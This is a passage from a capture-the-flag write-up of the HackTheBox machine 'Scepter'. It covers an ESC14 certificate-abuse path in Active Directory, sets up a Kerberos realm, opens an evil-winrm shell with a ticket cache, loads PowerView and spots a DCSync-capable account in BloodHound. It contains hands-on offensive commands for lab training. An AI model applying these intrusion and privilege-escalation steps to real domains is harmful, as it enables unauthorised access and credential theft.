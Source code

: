 > This is an exploitation of `ESC14 B`, the only reason it showed that it's vulnerable to `ESC9` is that `upn`s are actually disabled which could give `certipy-ad` a false alarm.
{:.info}

Let's set our `krb5` realm.
```bash
cat /etc/krb5.conf

[libdefaults]
    default_realm = scepter.htb
    dns_lookup_kdc = false
    rdns = false

[realms]
    SCEPTER.HTB = {
        kdc = dc01.scepter.htb
        admin_server = dc01.scepter.htb
        default_domain = scepter.htb
    }

[domain_realm]
    .scepter.htb = SCEPTER.HTB
    scepter.htb = SCEPTER.HTB
```

Using these we can authenticate to the box.
```bash
KRB5CCNAME=h.brown.ccache evil-winrm -i dc01.scepter.htb -r scepter.htb

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\h.brown\Documents>
```
Just like that we have User!
# Root
Let's transfer over `PowerView.ps1` and start some recon.
```powershell
*Evil-WinRM* PS C:\Users\h.brown\Documents> Import-Module .\PowerView.ps1
```
Looking at Bloodhound the most interesting User is `P.adams` as he has `DCSync` privileges over the domain.

![scepter-1745193634992.png](/assets/img/img_scepter/scepter-1745193634992.png)
